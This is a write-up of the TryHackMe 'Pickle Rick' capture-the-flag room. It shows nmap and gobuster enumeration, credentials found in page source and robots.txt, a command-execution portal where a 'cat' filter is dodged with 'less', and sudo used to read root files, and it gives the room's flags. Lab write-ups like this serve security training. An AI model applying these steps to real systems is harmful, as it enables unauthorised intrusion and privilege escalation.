





# Pickle Rick — TryHackMe Write-up

## Overview

* **From**: TryHackMe
* **Room**: Pickle Rick
* **Difficulty**: Easy
* **Category**: Web Exploitation 

## Objective

* Exploit the web server
* Find and access through Rick's credentials
* Find the flags inside the server

## Reconnaissance

### Nmap Scan

```zsh
$ sudo nmap -sC -sV $target
```

| Port | Service | Version                        |
|------|--------|---------------------------------|
| 22   | SSH    | OpenSSH 8.2p1 Ubuntu 4ubuntu0.11|
| 80   | HTTP   | Apache httpd 2.4.41 (Ubuntu)    |

### SSH Host Keys

```text
3072 05:0e:a9:7f:cd:9e:35:fa:e4:3a:a8:ef:d2:62:15:c8 (RSA)
256 d5:d7:7a:76:c2:b3:b3:10:4e:4b:a1:1c:25:5a:8b:fe (ECDSA)
256 93:c4:5f:7d:a2:54:ec:9d:ac:72:93:c7:f3:61:71:eb (ED25519)
```

* Other ports have been found but not as important

| Port     | State    | Service        |
|----------|----------|----------------|
| 2013/tcp | filtered | raid-am        |
| 7911/tcp | filtered | unknown        |
| 32775/tcp| filtered | sometimes-rpc13|


* Now, we found port 80 open. Our goal is to get into the web server, so we're going to go deeper with it. First, let's go check the source code and there we find an interesting comment: `Username: R1ckRul3s`

---

## Enumeration

### Directory Brute Force


* Using gobuster I was able to find hidden directories. The small wordlist did not reveal useful endpoints, so I escalated to a medium-sized list to increase coverage.


```zsh
$ gobuster dir -u http://10.114.135.252 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,jv,py,txt,html

[+] Url:                     http://10.114.135.252
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              py,txt,html,php,jv
[+] Timeout:                 10s
```
* Starting gobuster in directory enumeration mode

/index.html     (Status: 200) [Size: 1062]
/login.php      (Status: 200) [Size: 882]
/assets         (Status: 301) [Size: 317] [--> http://10.114.135.252/assets/]
/portal.php     (Status: 302) [Size: 0]   [--> /login.php]
/robots.txt     (Status: 200) [Size: 17]


* Some interesting stuff here. First of all I browsed `/robots.txt` and there is a strange word.. Maybe our password?

---

## Getting into the server

* Let's go to this login.php page we found. Let's try putting the credentials found in the source code and robots.txt page. And it worked! We now have access to the application dashboard.

---

### Credentials

<!-- Found in page source -->
Username: R1ckRul3s

<!-- Found in robots.txt -->
Password: Wubbalubbadubdub

---

### Exploring inside

 * There is a page in /portal.php where there is an input field that allows execution of Linux commands. Using `ls` to see whats inside, we see there is some stuff like a clue and the first ingredient that we needed to find. The `cat` command is blocked, likely due to input filtering.
`more` also fails, but `less` works, allowing us to read files:

```bash
less Sup3rS3cretPickl3Ingred.txt
```


 * Then, still using the `less` command we see the `clue.txt` that tells us to browse the file system to find the other ingredients. We see that we have to browse with just a command, we can't go to other directories with `cd`. So let's move around.

 * Let's go to some common directories like the home directory. We find a Rick directory inside. let's navigate there using: 

```bash
ls /home/rick
```

Nice! a file called 'second ingredients'. We're going to discover our second flag:

 ```bash
less /home/rick/"second ingredients"
 ```


* For our third flag we try the `root` directory after several attempts to the other directories in `/`. But it returns no output, suggesting insufficient permissions. After checking our permissions with `sudo -l` we discover that the user can run commands as root.

```bash
sudo -l
```



Checking sudo privileges:

```bash
sudo ls /root
```



* And there is a '3rd.txt'! Almost there to get our last ingredient:

```bash
sudo less /root/3rd.txt
```


---

## Flags

1. **Mr. Meeseek hair**
   - Found using command injection in portal.php by executing Linux commands through the input field

2. **1 jerry tear**
   - Found in /home/rick/

3. **Fleeb juice**
   - Located in root directory

---

## Skills Practiced

1. **Enumeration**
2. **Web exploitation**
3. **Linux file system and commands**

---

## Notes

- Always check source code for hidden credentials
- robots.txt can leak sensitive information
- Input filtering can often be bypassed with alternative commands

--- 

## Conclusion

This room demonstrates how simple misconfigurations can lead to full system compromise. 
By combining basic enumeration techniques with command injection, we were able to:

- Discover hidden credentials
- Gain access to the web application
- Execute system commands
- Escalate privileges to root
